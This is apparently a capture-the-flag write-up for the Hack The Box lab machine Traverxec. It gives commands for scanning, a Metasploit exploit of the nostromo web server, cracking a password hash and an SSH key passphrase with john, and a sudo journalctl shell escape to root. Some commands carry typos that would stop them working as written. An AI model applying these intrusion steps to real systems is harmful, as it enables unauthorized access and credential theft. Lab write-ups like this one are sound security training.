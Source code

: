 ```yaml
---
title: Traverxec Hackthebox Writeup
layout: post
category: hackthebox
tags: hackthebox writeup
date: 2020-08-13
---
```


# About
Hello everyone, this is the write-up for traverxec box on hackthebox . It was a really easy box, which was more ctf type. So let’s get started

# Basic Info
* Name: Traverxec
* IP: 10.10.10.165
* Level: Easy
* Box: Linux

# Enumeration
1. We perform an nmap scan on the machine and get the following results
```
nmap -sCV -oN nmap.txt -v 10.10.10.165
```
2. Nmap scan results showing open ports with services running on them.
3. On port 80 we see the service ‘nostromo 1.9.6’ running.
4. OpenSSH running on port 22 is latest version and hence no exploits are available.
5. We run a all port scan in the background till we find examine the nostromo service.
```
nmap -sC -sV -v -p- -oN allports.txt 10.10.10.165
```

# Foothold (Web-shell)
1. Let’s look for an exploit of the notsromo service on the box
```
searchsploit nostromo
```
2. We found an exploit, now we open metasploit to run it.
```
sudo msfconsole
```
3. search nostromo
```
use exploit/multi/http/nostromo_code_exec
set rhosts 10.10.10.165
set lhost tun0
set srvhost tun0
exploit
```
4. We get a shell..!!
5. To upgrade this shell we run the following command
```
python3 -c ‘import pty;pty.spaws(“/usr/bin/sh”)’
export TERM=xterm
```
6. Now we get a proper shell on the box…!!

# Exploitation(User)
1. Now looking around the box we find the directory ‘/var/nostromo/conf/’
2. We cat the files present in it and gather some intresting information
3. We find a ‘.htpasswd’ which is a hash. We copy it to our system.
4. We crack it using john
```
john — wordlist=/usr/share/wordlists/rockyou.txt .htpasswd
```
5. The cracked hash reveals the password : Nowonly4me
6. We try to login using these credentials but it fails, let’s look somewhere else.
7. Closely examining the ‘/var/nostromo/conf/nhttpd.conf’ file we see that there is a public_www directory listed.
```
cd /home/david/public_www
```
8. We look at the contents of the directory
9. I read the documentation of nostromo and found that files present in the home directory of the user can be accessed by web browser by simply putting a ~ before the username
10. Then we open the following url in a browser
‘http://10.10.10.165/~david/public_www/private-file-storage/backup-ssh-identity-files.tgz’
11. We are prompted for a password, we enter the password that we previously cracked(Nowonly4me) and we get the file!
12. Looking into the contents of the home directory, we find a ssh private key!!
13. First we convert this to john type file
```
ssh2john id_rsa > hash.hash
```
14. Then we crack this using john and get the password ‘hunter’
```
john — wordlists=/usr/share/wordlists/rockyou.txt hash.hash
```
15. Finally we get an ssh password! We login using this private key
```
ssh -i id_rsa davis@10.10.10.165
```
16. We get the user shell..and find the user.txt file
```
cat ~/user.txt
```

# Exploitation(Root)
1. Looking in the home directory of user david, we see a bin folder.
Inside it there are two files, a banner and a shell script.
2. We closely look at the shell script and deduce that user david is allowed to run /usr/bin/journalctl as sudo..!!
3. We go to gtfobins to look for privesc using the command(journalctl) that we can run as sudo.
```
/usr/bin/sudo /usr/bin/journalctl -n5 unostromo.service
Then we enter
!/bin/sh
cat /root/root.txt
```
And we get root..!!!

# Concepts we learned
* Searching for exploits using searchsploit.
* Working of nostromo service.
* We discovered about this awesome webiste GTFObins.
* How to use ‘less’ to get a root shell if its running as root.
* How to crack hashes using john.

# Conclusion
This was my way to root the box, if there’s a better way to pwn this, feel free to respond :)
Have a great day, Happy Hacking.!!